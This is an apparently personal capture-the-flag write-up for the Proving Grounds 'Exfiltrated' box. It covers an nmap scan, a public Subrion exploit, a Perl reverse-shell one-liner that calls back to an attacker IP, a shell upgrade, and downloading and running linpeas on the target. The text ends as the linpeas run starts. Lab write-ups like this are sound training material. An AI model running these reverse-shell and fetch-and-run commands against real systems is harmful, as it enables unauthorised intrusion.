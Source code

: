 ```yaml
---
aliases:
  - Exfiltrated
tags:
  - pg-playground
  - linux
  - enumeration
  - exploitation
os: Linux
difficulty: Easy
date: 2025-04-11
status: owned
---
```


## Box Summary

| Field              | Value                |
| ------------------ | -------------------- |
| **Name**           | Exfiltrated          |
| **IP**             | `192.168.198.163`    |
| **OS**             | Linux                |
| **Difficulty**     | Easy                 |
| **Date Completed** | 11 Apr 2025          |
| **Exploited Via**  | RCE or PrivEsc Chain |
| **Flags Captured** | ✅ Root, ✅ User       |

---

### 2. Enumeration

Quick Nmap Scan just to see what's going on as usual:

```
nmap -sCV -p- -T4 192.168.198.163
```

Output:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sCV -p- -T4 192.168.198.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 22:45 EDT
Nmap scan report for 192.168.198.163
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.57 seconds
```

From here we can see port 80 and port 22 is open, and just searching for the ip in my browser doesnt give me a anything, so we gonna try the links 1 by 1.

![[Exfiltrated-1744341273064.jpeg]]


After much trial and error and hardwork (I'm kidding it wasn't hard at all), we find ourself some weird login page, so whats the next step to do ? try out some useless username and password like admin:admin, but nah, no way this is gonna be this easy. Imma just google for exploits:

![[Exfiltrated-1744341434736.jpeg]]

Like all script kiddies do I'm just gonna use my trusty [exploitDB](https://www.exploit-db.com/exploits/49876) and copy and paste the python code. 

🔹 Create & Activate Virtual Environment
```
python3 -m venv afu-venv
source afu-venv/bin/activate
```

🔹 Install Dependencies
```
pip install requests bs4
```

So we run the exploit:

![[Exfiltrated-1744342000765.jpeg]]

and we just happen to get in: cool beans, so ngl, I just found out that theres this thing called revshells.com after looking at an online guide because idk how to continue, but DAMN:

![[Exfiltrated-1744342348811.jpeg]]


```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.233:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

ngl, this feels abit underwhelming:

![[Exfiltrated-1744342402815.jpeg]]

but alls good, we have a listener on 4444 on the other end so we gonna upgrade the shell (ngl this guy is pretty genius)

```
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```

Okay time to document how this whole linpeas shit works:

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
```

Host http server:

```
python3 -m http.server 8000
```

On the shell you opened:

```
wget http://192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

Output:

```
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
<//192.168.45.233:8000/linpeas.sh -O /tmp/linpeas.sh
--2025-04-11 03:47:49--  http://192.168.45.233:8000/linpeas.sh
Connecting to 192.168.45.233:8000... chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
connected.
HTTP request sent, awaiting response... 200 OK
Length: 840085 (820K) [text/x-sh]
Saving to: ‘/tmp/linpeas.sh’

/tmp/linpeas.sh     100%[===================>] 820.40K  3.54MB/s    in 0.2s    

2025-04-11 03:47:49 (3.54 MB/s) - ‘/tmp/linpeas.sh’ saved [840085/840085]

www-data@exfiltrated:/var/www/html/subrion/uploads$ chmod +x /tmp/linpeas.sh
www-data@exfiltrated:/var/www/html/subrion/uploads$ /tmp/linpeas.sh
```

![[Exfiltrated-1744344088505.jpeg]]